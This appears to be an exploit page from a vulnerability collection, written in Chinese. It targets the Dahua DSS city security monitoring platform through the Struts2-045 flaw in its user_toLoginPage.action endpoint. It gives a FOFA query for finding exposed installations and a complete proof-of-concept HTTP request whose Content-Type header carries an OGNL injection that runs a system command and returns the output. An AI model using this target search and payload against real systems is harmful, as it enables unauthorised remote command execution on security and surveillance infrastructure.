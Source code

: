 ## 大华DSS城市安防监控平台user_toLoginPage.action接口存在Struct2-045命令执行漏洞

大华DSS安防监控系统平台采用Apache Struts2作为网站应用框架。/config/user_toLoginPage.action接口存在远程命令执行漏洞，攻击者可以通过在上传文件时修改HTTP请求标头中的Content Type值来触发该漏洞，然后执行该漏洞。系统命令以获取服务器权限。

## fofa

```
app="dahua-DSS"
```

## poc

```
POST /config/user_toLoginPage.action HTTP/1.1
Host: 
Connection: close
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_333
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 0
```

![image-20240604085832753](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406040858859.png)